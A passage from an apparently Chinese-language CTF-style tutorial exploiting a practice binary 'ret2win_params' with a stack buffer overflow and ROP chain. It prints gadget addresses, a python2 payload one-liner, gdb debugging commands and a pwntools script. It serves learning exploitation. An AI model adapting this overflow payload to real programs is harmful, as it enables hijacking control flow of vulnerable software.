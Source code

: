 ![在这里插入图片描述](https://img-blog.csdnimg.cn/7ac47a26f8314232a4d430909df4bb7a.png)

但是由于这里还执行了其他的命令，pop r15，我们可以传入一些垃圾字符进去
```
0x0000000000401249
```

然后我们继续补全脚本，整个脚本的逻辑是这样的

垃圾字符 + pop_rdi的地址 + 我们第一个对比的值 + pop_rsi的地址 + 我们第二个对比的值 + 8个字符的垃圾数据 + hacked函数的地址

```
python2 -c 'print "A" * 24 + "\x4b\x12\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\x49\x12\x40\x00\x00\x00\x00\x00" + "\xbe\xba\xde\xc0\xbe\xba\xde\xc0" + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x42\x11\x40\x00\x00\x00\x00\x00"' > exp
```

现在脚本就完成了，这里hacked函数地址要在最后的原因是，如果我们放到第一个，程序跳转之后就不会执行我们后续的操作了，所以我们要将需要执行的操作都执行后，再跳转

我们脚本调用pop rdi之类的指令，从内存弹出的值都是我们写的值，因为程序原本的值都被我们覆盖了，他是按照顺序弹的


![在这里插入图片描述](https://img-blog.csdnimg.cn/4c16a15ecca3439b996895160e35b5f0.png)


我们要在程序主函数的最后的地址下一个断点，方便调试，然后我们执行程序，并导入文件里的数据

```
disassemble register_name
b *0x00000000004011d6
run < exp
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9e653eaa4ae94bd48229d2ed497f38b8.png)

可以看到，程序在执行了我们指定的操作后，才跳转到hacked函数的地址

![在这里插入图片描述](https://img-blog.csdnimg.cn/ef31cdb30a2d446ab403b0c437954d95.png)

rdi里存放的值就是之后要对比的值

继续执行

![在这里插入图片描述](https://img-blog.csdnimg.cn/24d5ca7ecaad44c489fd0ea0af30c109.png)


成功破解程序，我们直接执行程序，然后导入文件看看

![在这里插入图片描述](https://img-blog.csdnimg.cn/2f51c071a3cb4cfdab750ba9604f7bf3.png)

也是能成功破解的

## pwntools脚本
```
from pwn import *

io = process('./ret2win_params')
io.sendline(b"A" * 24 + b"\x4b\x12\x40\x00\x00\x00\x00\x00" + b"\xef\xbe\xad\xde\xef\xbe\xad\xde" + b"\x49\x12\x40\x00\x00\x00\x00\x00" + b"\xbe\xba\xde\xc0\xbe\xba\xde\xc0" + b"\x00\x00\x00\x00\x00\x00\x00\x00" + b"\x42\x11\x40\x00\x00\x00\x00\x00")

print(io.recvall())
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f6e7607db3044d239562168968995dd3.png)
成功破解程序
# 总结
有什么不会或者是错误的地方的可以私信我，看到必回

